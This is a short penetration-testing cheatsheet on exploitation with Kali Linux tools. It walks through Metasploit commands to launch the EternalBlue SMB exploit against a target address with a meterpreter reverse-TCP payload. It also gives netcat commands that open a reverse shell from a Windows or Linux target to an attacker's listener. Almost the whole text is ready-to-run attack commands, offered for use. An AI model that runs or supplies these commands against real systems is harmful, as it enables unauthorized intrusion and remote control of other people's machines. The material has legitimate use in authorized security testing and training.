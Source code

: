 # Kali Cheatsheet 4: Exploitation Gaining access to a system by leveraging a vulnerability. 
### Metasploit Framework
- **Description:** A powerful penetration testing platform.
- **Core Commands:**
```bash 
# Launch the console
 msfconsole 
# Search for an exploit
 msf6 > search <vulnerability_name> # e.g., search eternalblue 
# Use an exploit
 msf6 > use exploit/windows/smb/ms17_010_eternalblue
# Show options for the selected module 
 msf6 > show options 
# Set a required option
 msf6 > set RHOSTS 192.168.1.105
# Show available payloads
 msf6 > show payloads 
 # Set a payload 
 msf6 > set payload windows/x64/meterpreter/reverse_tcp 
 # Set the listening host for the reverse shell 
 msf6 > set LHOST 192.168.1.20 # Your Kali IP 
 # Run the exploit 
 msf6 > exploit # or run
  ```
### Netcat (nc)
- **Description:** The "Swiss-army knife" for TCP/IP. Used for creating listeners and reverse shells.
- **Usage:**
``` bash
    # Set up a listener on your Kali machine
    nc -lvnp 4444
    
    # Connect to the listener from the target to create a reverse shell
    # On Windows: 
    nc.exe <kali_ip> 4444 -e cmd.exe
    # On Linux: 
    nc <kali_ip> 4444 -e /bin/bash
```
